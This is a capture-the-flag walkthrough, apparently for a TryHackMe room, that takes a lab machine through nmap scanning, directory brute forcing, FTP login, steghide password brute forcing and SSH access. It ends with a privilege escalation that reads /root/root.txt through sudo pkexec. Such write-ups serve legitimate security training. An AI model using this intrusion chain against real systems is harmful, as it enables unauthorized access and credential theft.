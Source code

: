 Always start with Nmap
```console
bibo318@parrot:~/LianYu$ nmap -p- -A 10.10.209.111 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 18:43 EDT                               
Nmap scan report for 10.10.209.111             
Host is up (0.047s latency).                   
Not shown: 65530 closed ports                  
PORT      STATE SERVICE VERSION                
21/tcp    open  ftp     vsftpd 3.0.2           
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)                          
| ssh-hostkey:                                 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)                                
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)                                
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35080/tcp6  status
|   100024  1          50089/tcp   status
|   100024  1          55191/udp   status
|_  100024  1          57921/udp6  status
50089/tcp open  status  1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.02 seconds
```
run ```dirbuster``` using ```usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt```. give it sometime and it will find a directory call **island**. View the source code of the page, you will find something.
```html
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```
We know that we are looking for another directory which is a number from **HINT**. Now let brute force more but this time start the directory at ```/island/``` (Dir to start with) instead. Give it a while. you will find ```/island/2100/``` which is the anwser to
```html
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```
now check the youtube comment
```
Try fuzzing it with .ticket extension.
Answer in b64: Z3JlZW5fYXJyb3cudGlja2V0
```
now use ```base64``` to decode it
```console
bibo318@parrot:~/LianYu$ echo "Z3JlZW5fYXJyb3cudGlja2V0" > b64.txt
bibo318@parrot:~/LianYu$ base64 -d b64.txt 
green_arrow.ticket
```
another way to solve it is using dirbuster again but this time fill **Dir to start with**: ```/island/2100``` and **File Extention**: ```ticket```. let it run and it will give u the http 200 code.


now visit ```http://<ip>/island/2100/green_arrow.ticket```
```html
<pre>
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX

</pre>
```
from hint, we can use https://gchq.github.io/CyberChef/ to crack the code which is the password to FTP hint **baseXX**


Now login to FTP server, use ``vigilante`` as usernam and the cracked password from last task.
```console
bibo318@parrot:~/LianYu$ ftp 10.10.209.111
Connected to 10.10.209.111.
220 (vsFTPd 3.0.2)
Name (10.10.209.111:kali): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01 06:55 slade
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 vigilante
226 Directory send OK.
```
use ```get <filename>``` to get everything and ```exit```. not the lasly I run ```cd ..``` to redirect to previous directory and I found out that there is 2 user ```slade``` and ```vigilante```.


now let check the pictures that we downloaded from FTP server. note that one of the image is corrupted
```console
bibo318@parrot:~/LianYu$ file Leave_me_alone.png 
Leave_me_alone.png: data
```
seem like the header/file signature is wrong. check this [link](https://en.wikipedia.org/wiki/List_of_file_signatures) and find signature for .png file. When you found it, run ```hexeditor <filename>``` and fix the file signature to the correct signature (```89 50 4E 47 0D 0A 1A 0A```)


It seem like I should Leave it alone (like the file name said). I couldn't find anything from the recovered image... ofc ```steghide``` will not work since the image is .png.


So I have no choice than try to brute force steghide on ```aa.jpg```. I found a simple bash script [here](https://gist.github.com/itsecurityco/503970852ac47cd6a3b356590d824a2c) which can be use to brute forcing steghid. copy the script and make it executable (``chmod +x``). Now run the script.
```console
bibo318@parrot:~/LianYu$ steghidebf.sh aa.jpg /usr/share/wordlists/rockyou.txt 
Steghide Bruteforce (c) 2017 by Juan Escobar
stegofile: aa.jpg
wordlist:  /usr/share/wordlists/rockyou.txt

/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt[+] Information obtained with passphrase: 'password'
wrote extracted data to "ss.zip".

bibo318@parrot:~/LianYu$ ls
 aa.jpg    Leave_me_alone.png    ss.zip
 b64.txt  "Queen's_Gambit.png"
bibo318@parrot:~/LianYu$ file ss.zip 
ss.zip: Zip archive data, at least v2.0 to extract
bibo318@parrot:~/LianYu$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado 
```
you will find the ssh password in **shado**: ```cat shado```. We got the password, what are we waiting for? let SSH to the target. When we accessed FTP, we found out that there is 2 users, try both!
```console
 Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

Last login: Tue May 26 20:03:47 2020 from ip-10-8-14-151.eu-west-1.compute.internal
```
a beautiful wellcome message :D. you will found the 1st flag right here. so ```cat``` it. You will find a cool quote by Felicity Smoak said ```people keep secret  computer don't```.


now run sudo -l to find out what sudo command this user can execute.
```console
slade@LianYu:~$ sudo -l
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on
        LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
seem like this user can run ```pkexec``` which allow the user execute a command as another user. now let try to ```cat root.txt```
```console
slade@LianYu:~$ sudo pkexec cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{SOMETHING HERE YOU NEED TO FIND OUT BY YOURSELFT}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

that is it guys. GLHF and stay home.

